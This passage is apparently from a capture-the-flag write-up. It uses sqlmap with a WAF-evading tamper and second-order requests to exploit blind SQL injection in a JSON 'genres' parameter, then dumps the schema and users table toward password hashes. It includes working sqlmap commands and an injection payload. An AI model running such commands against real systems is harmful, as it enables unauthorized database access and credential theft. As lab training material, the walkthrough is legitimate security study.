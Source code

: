 Hmm, still no luck. Same message about the WAF though. I'll try using the tamper that they suggest. It seems like it might work.

```bash
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --tamper=space2comment
```

Nice! Ok that worked a bit. Not only did SQLMap determine that the database is **MySQL**, it also found a technique that works!

```
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: {"genres":"a') OR NOT 2804=2804 AND ('bVzP'='bVzP"}
    Vector: OR NOT [INFERENCE]
---
```

I know that there is a rate-limiter on these requests, so I want to minimize my activity for enumerating the database: this time I'll specify the known parameters (database: MySQL, technique: boolean-based-blind) and start the database dump:

```bash
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --tamper=space2comment --dbms=mysql --technique=B --dump
```

![db dump 1](db%20dump%201.png)

I terminated the dump because it would have taken an extremely long time. So far, we know the following schema:

- Database: `intentions`
  - Tables: `gallery_images`, `personal_access_tokens`, `migrations`, `users`

Those tables look quite interesting. I'm most interested in `users` and `personal_access_tokens`, but `migrations` might also hold something valuable to explain the difference between API versions 1 and 2.



### Table: users

Let's first dump the whole table, to understand what fields it has:

```bash
sqlmap -r post-genres --second-req=get-feed -vv --level 5 --risk 3 --tamper=space2comment --dbms=mysql --technique=B --dump -D intentions -T users
```

![db dump 2](db%20dump%202.png)

It looks like the fields are `name`, `email`, `password`, `created_at`, `updated_at`, `admin` and `genres`. That makes sense: it matches exactly what was found earlier at `GET /api/v1/auth/user`

First, I'll grab the `name` and `password` fields:
